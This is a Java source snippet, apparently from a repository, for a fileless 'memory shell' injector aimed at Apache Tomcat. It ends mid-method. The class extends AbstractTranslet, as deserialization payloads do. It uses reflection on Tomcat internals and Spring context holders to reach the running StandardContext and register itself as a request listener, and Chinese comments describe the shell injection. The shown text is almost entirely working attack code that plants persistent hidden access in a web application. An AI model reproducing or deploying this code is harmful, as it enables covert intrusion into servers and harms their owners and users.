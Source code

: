 ```java

public class TomcatInjectListener extends AbstractTranslet implements ServletRequestListener {
    private final static String servletUrlPattern = "/";
    private final static String servletName = "test";
    static {
        try {
            ServletContext servletContext = getServletContext();
            if (servletContext != null) {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                ServletRequestListener listener = new TomcatInjectListener();
                standardContext.addApplicationEventListener(listener);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    private static ServletContext getServletContext() throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ServletRequest servletRequest = null;
        /*shell注入，前提需要能拿到request、response等*/
        Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
        f.setAccessible(true);
        ThreadLocal threadLocal = (ThreadLocal) f.get(null);
        //不为空则意味着第一次反序列化的准备工作已成功
        if (threadLocal != null && threadLocal.get() != null) {
            servletRequest = (ServletRequest) threadLocal.get();
        }
        //如果不能去到request，则换一种方式尝试获取

        //spring获取法1
        if (servletRequest == null) {
            try {
                c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method m = c.getMethod("getRequestAttributes");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                m = c.getMethod("getRequest");
                servletRequest = (ServletRequest) m.invoke(o);
            } catch (Throwable t) {
            }
        }
        if (servletRequest != null) return servletRequest.getServletContext();

        //spring获取法2
        try {
            c = Class.forName("org.springframework.web.context.ContextLoader");
            Method m = c.getMethod("getCurrentWebApplicationContext");
            Object o = m.invoke(null);
            c = Class.forName("org.springframework.web.context.WebApplicationContext");
            m = c.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) m.invoke(o);
            return servletContext;
        } catch (Throwable t) {
        }
        return null;
```